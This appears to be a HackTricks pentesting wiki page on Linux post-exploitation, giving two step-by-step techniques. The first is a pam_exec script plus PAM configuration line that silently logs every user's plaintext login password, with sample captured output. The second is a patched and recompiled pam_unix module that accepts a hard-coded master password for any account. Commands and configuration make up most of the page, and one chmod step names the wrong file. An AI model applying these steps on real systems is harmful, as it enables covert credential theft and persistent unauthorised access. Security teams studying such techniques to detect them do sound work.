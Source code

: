 # Linux Post-Exploitation

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Sniffing Logon Passwords with PAM

Let's configure a PAM module to log each password each user uses to login. If you don't know what is PAM check:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

First, we create a bash script that will be invoked whenever a new authentication occurs.

```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
```

The variables are PAM specific and will become available via the `pam_exec.so` module.

Here is the meaning of the variables:

* **$PAM\_USER:** The username that was entered.
* **$PAM\_RHOST:** The remote host (typically the IP Address)
* **$(cat -):** This reads `stdin`, and will contain the password that the script grabs
* The results are piped into a log file at `/var/log/toomanysecrets.log`

To **prevent all users from reading** the file consider pre-creating it and running `chmod`, e.g.:

```bash
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
```

Next, the PAM configuration file needs to be updated the `pam_exec` module will be used to invoke the script.

There are various config files located in `/etc/pam.d/`, and we pick `common-auth`.

```
sudo nano /etc/pam.d/common-auth
```

On the very bottom of the file, add the following authentication module:

`auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh`

The options have the following meaning:

* **optional:** Authenticaiton shouldn’t fail if there is an error (it’s not a required step)
* **pam\_exec.so:** This is the living off the land PAM module that can invoke arbitrary scripts
* **expose\_authtok:** This is the trick that allows to read the password via `stdin`
* **quiet:** Don’t show any errors to the user (if something doesn’t work)
* The last argument is the shell script that was created previously

![](<../../.gitbook/assets/image (375).png>)

Finally, make the file executable:

`sudo chmod 700 /usr/local/bin/toomanysecrets.sh`

Now, let’s try this out and ssh from another machine, or login locally.

And then look at the log file:

```
$ sudo cat /var/log/toomanysecrets.log
 Sun Jun 26 23:36:37 PDT 2022 tom, Trustno1!, From: 192.168.1.149
 Sun Jun 26 23:37:53 PDT 2022 tom, Trustno1!, From:
 Sun Jun 26 23:39:12 PDT 2022 tom, Trustno1!, From: 192.168.1.149
```

### Backdooring PAM

Let go to the sources of PAM (depends on your distro, take the same version number as yours..) and look around line numbers 170/180 in the pam\_unix\_auth.c file:

```
vi modules/pam_unix/pam_unix_auth.c
```

![](<../../.gitbook/assets/image (651).png>)

Let’s change this by:

![](<../../.gitbook/assets/image (638) (2) (2).png>)

This will allow any user using the **password "0xMitsurugi"** to log in.

Recompile the `pam_unix_auth.c`, and replace the pam\_unix.so file:

```bash
make
sudo cp \  
  /home/mitsurugi/PAM/pam_deb/pam-1.1.8/modules/pam_unix/.libs/pam_unix.so \  
  /lib/x86_64-linux-gnu/security/  
```

{% hint style="info" %}
You can automate this process with [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}

## References

* [https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)
* [https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
